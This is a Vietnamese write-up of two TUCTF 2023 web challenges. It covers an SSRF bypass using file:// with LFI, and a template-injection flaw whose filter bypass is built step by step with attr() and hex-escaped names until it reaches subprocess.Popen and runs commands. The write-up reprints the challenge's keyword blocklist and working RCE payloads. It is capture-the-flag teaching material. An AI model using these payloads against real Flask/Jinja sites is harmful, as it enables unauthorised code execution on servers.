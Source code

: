 ```yaml
---
title: Write-Up TUCTF 2023
date: 2023-12-3 7:55:00 +0700
categories: [CTF, TUCTF-2023, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
pin: true
---
```


# PHP-Practise

vì bài này mình không kịp làm lại để lấy ảnh, nên mình sẽ dùng tạm những hình mình cap lại trong quá trình giải để giải thích.

- Về cơ bản thì đây chỉ là 1 web dùng để lấy dữ liệu, mình đã test qua và phát hiện được file:/// là bypass filter ssrf.
- mình dùng file:///var/www/html/display.php để lấy đc source code của file display , tuy nhiên cũng không khai thác được gì mấy, và mình cũng tìm được trang này bị LFI

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled.png">
- Dựa vào hint của bài thì mình tìm các thư mục có thể dùng để dấu đi tập tin bí mật như robots.txt, .htaccess

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 1.png">

- Mình tìm được 1 thư mục có vẻ như là chứa flag của bài này

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 2.png">

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 3.png">

- Done, vì bài này mình không kịp làm lại để viết WU nên không thể viết chi tiết hơn được hic

# My First blog

- Bài này dẫn chúng ta đến 1 trang blog với 1 số chức năng như là tạo post, sửa post và xóa post, và sau khi test XXS không được thì mình nghĩ đến SSTI và test với chức năng tạo post và edit post như hình

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 4.png">

- Tuy nhiên có vẻ như không hoạt động 😀

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 5.png">

- Sau đó mình test thêm Edit nhưng cũng không được, tuy nhiên khi mình dùng chức năng xóa thì đã trigger được lỗi SSTI.

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 6.png">

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 7.png">

- Voila!!, lúc này mình tiếp tục thử dùng `{{().**class**}}`  để xem thì phát hiện 1 số filter rất KHÓ CHỊU!!

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 8.png">

- Và như bạn thấy ở dưới là những kí tự đã bị filter. tức là khi nó xuất hiện những chữ trong dấu * thì sẽ không dùng được.
**[‘.*config.*’, ‘.*class.*’, ‘.*request.*’, ‘.*self.*’, ‘.*global.*’, ‘.*getitem.*’, ‘.*base.*’, ‘.*os.*’, ‘.*mro.*’, ‘.*import.*’, ‘.*builtins.*’, ‘.*popen.*’, ‘.*read.*’, ‘.*write.*’, ‘.*system.*’, ‘.*eval.*’, ‘.*exec.*’, ‘.*\\+.*’, ‘.*\\..*’, ‘.*\\[.*’, ‘.*\\].*’, ‘.*\\_.*’]**

Vì thế nên mình sẽ dùng hàm attr(), nó sẽ dùng để thay thế cho thằng class bên dưới

```python
().__class__
```

Tương đương với

```python
()|attr('__class__')
```

Như bạn có thể thấy **class** hiện nằm trong một chuỗi, vì vậy ta có thể bypass được filter của bài này bằng cách dùng acsii

```python
()|attr('\x5f\x5f\x63lass\x5f\x5f')
```

- **`'\x5f'`** là biểu diễn của ký tự **`_`** trong ASCII.
- **`'\x63'`** là biểu diễn của ký tự **`c`** trong ASCII.
- …. tương tự

Vì thế, chúng ta có thể viết như thế này 

text: `**()|attr('__class__')|attr('__base__')**`

nó sẽ tương tự như

text: `().**__class__**.**__base__**`

- Việc bây giờ của ta là sẽ test và sử dụng SSTI để RCE , mình sẽ sử dụng payload bên dưới, tuy nhiên ở đây chúng ta có 2 vấn đề.

text: `{{().__class__.__base__.__subclasses__()[<index for subprocess.Popen>]('whoami',shell=True,stdout=-1).communicate()}}`

1. Dấu [ ] bị filter
2. Ta không biết index cụ thể của **subprocess.Popen**

- Để giải quyết vấn đề 1 ta sử dụng **`.getitem()`** thay vì trực tiếp sử dụng dấu **`[]`** để truy cập phần tử của danh sách. Vậy nên câu lệnh trên sẽ thành

text: `{{().__class__.__base__.__subclasses__().__getitem__(<index for subprocess.Popen>)('whoami',shell=True,stdout=-1).communicate()}}`

- Đối với vấn đề 2, sau 1 lúc search document thì mình biết được rằng Popen in **subclass**(). thường sử dụng payload sau `().**__class__**.**__base__**.**__subclasses__**()`

Vậy nên payload cuối cùng của ta sẽ là 

text: `{{().__class__.__base__.__subclasses__().__getitem__().**__class__**.**__base__**.**__subclasses__**()('whoami',shell=True,stdout=-1).communicate()}}`

Tuy nhiên ta phải chuyển nó sang như thế này để bypass filter

text: `{{()|attr('\x5f\x5f\x63lass\x5f\x5f')|attr('\x5f\x5f\x62ase\x5f\x5f')|attr('\x5f\x5fsub\x63lasses\x5f\x5f')()}}`

- Tuy nhiên ta lại nhận được kết quả như hình

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 2.png">

- Đáng lí ra thì theo payload trên, ta sẽ phải nhận được thông tin về subclass, ví dụ như là

```python
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>...
```

- Sau 1 lúc mò mẫm thì có vẻ như là những kí tự nằm trong <> sẽ bị render thành rỗng … như ảnh, vì vậy mình sẽ add thêm **.replace(’<’) thành ‘’**

text: `{{()|attr('\x5f\x5f\x63lass\x5f\x5f')|attr('\x5f\x5f\x62ase\x5f\x5f')|attr('\x5f\x5fsub\x63lasses\x5f\x5f')()|attr('\x5f\x5frepr\x5f\x5f')()|attr('replace')('<','')}}`

- P/S: Thật ra cũng không cần thiết vì thật ra thằng trình duyệt nó chỉ cố render bọn class thành html elements, ta chỉ cần view-source là có thể thấy được như hình dưới hahaha

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 9.png">

- Lúc này ta viết script để tìm được index của nó là 372, vậy payload cuối cùng của ta sẽ là

text: `{{().__class__.__base__.__subclasses__().__getitem__(372)('whoami',shell=True,stdout=-1).communicate()}}`

- Để tránh bị filter

text: `{{()|attr('\x5f\x5f\x63lass\x5f\x5f')|attr('\x5f\x5f\x62ase\x5f\x5f')|attr('\x5f\x5fsub\x63lasses\x5f\x5f')()|attr('\x5f\x5f\x67etitem\x5f\x5f')(372)('whoami',shell=True,stdout=-1)|attr('communicate')()}}`

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 10.png">

- Bạn chỉ cần chạy 1 lệnh RCE bất kì là có thể xuất hiện flag :D
